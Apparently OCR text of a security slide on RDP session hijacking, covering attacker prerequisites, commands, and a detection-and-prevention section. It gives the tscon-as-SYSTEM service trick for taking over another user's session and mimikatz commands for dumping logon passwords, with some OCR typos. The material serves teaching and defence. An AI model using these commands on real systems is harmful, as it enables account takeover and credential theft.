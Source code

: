 
Attackers are targeting open RDP server (server exposed on the internet with the RDP service) ▪ One they compromise a local account, they can move on and try to steal sessions ▪ To steal an RDP session, you need: ▪ A local administrator (can be a local user) ▪ No outside tools, you can use tools available by default on the OS ▪ Another user connected to the system (either through RDP or the console) ▪ The objective: redirect the user’s session into your session ▪ The attacker is now in the user’s session and can access things on the network



RDP session take over 

List current sessions
query user 
query session 

Create a service to run tscon as SYSTEM 
sc create FakeService binpath= "cmd.exe /k tscon 2 /dest:console“ 
net start FakeService

psexec.exe \\SRV01 cmd.exe -accepteula

mimikatz.exe
privilege::debug
sekurlsa::logonPasswords

Detection and prevention
The attack leaves quite a lot of artefacts behind ▪ Process creation for tscon.exe running as SYSTEM ▪ Creation of a new service ▪ Most EDRs will detect it ▪ To prevent it… It’s all about good administrative practices ▪ Users should not leave RDP session signed-in while inactive ▪ Admins should not connects using RDP to servers where the local administrators have less privileges than them on the network then no privilege escalation are possible ▪ Use /retrictedadmin mode, you can still have your session taken over, but no privilege escalation are possible

